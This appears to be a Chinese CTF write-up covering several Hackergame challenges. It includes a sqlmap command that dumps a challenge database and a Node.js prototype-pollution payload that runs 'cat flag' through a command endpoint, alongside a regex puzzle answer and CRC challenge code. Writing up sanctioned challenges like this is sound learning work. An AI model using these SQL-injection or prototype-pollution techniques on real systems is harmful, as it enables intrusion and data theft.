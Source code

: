 当时挠破脑袋都没想到未知到底未知到哪了，看完附件之后恍然~~大雾~~ （确诊为未为注意力不集中导致的

**attention is all you need!**

`sqlmap --cookie dump` 一把嗦

```bash
sqlmap -u "https://chal01-yh8m6qof.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=3e82ebb0-cc9e-4f12-b76c-d35c0d979bf5" --cookie "changeme" --dbms=sqlite --dump | grep 'flag'
```

拖出来之后搜flag即可得到藏着的flag

对应的文章的uuid应该是`24052425-8f7e-4e97-bdc5-b10f13d9538d` `请详细解释以下名词： 水产养殖业中的现状`

![image-20241103115531851](/assets/img/image-20241103115531851.png)

## Node.js is Web Scale（藏裤裆的flag

这个题考的是 **Node.js 原型链污染** ，阅读题目源码后，设置key为 `__proto__.cmd` ，value是`cat flag`

访问 `/execute?cmd=cmd` 就能得到 flag



## 强大的正则表达式（藏裤裆的flag

第一问

阅读源码后知道需要实现16的取模，能否被16整除只需要看后4位，只需要~~暴力匹配~~后四位即可得到 flag ，见以下借助GPT得到的逆天表达式

```
(0|1|2|3|4|5|6|7|8|9)*((0|2|4|6|8)(000|016|032|048|064|080|096|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992)|(1|3|5|7|9)(008|024|040|056|072|088|104|120|136|152|168|184|200|216|232|248|264|280|296|312|328|344|360|376|392|408|424|440|456|472|488|504|520|536|552|568|584|600|616|632|648|664|680|696|712|728|744|760|776|792|808|824|840|856|872|888|904|920|936|952|968|984|1000))
```



### 惜字如金3.0

### 题目A

最简单了，填空题

``` python
#!/usr/bin/python3                                                              
                                                                                
import atexit, base64, flask, itertools, os, re                                 
                                                                                
                                                                                
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'AaaaaaAaaaAAaaaaAAAAaaaAAAaAaAAAAaAAAaaAaaAaaAaaA', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'A' 
    flip = sum(['a', 'A'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
```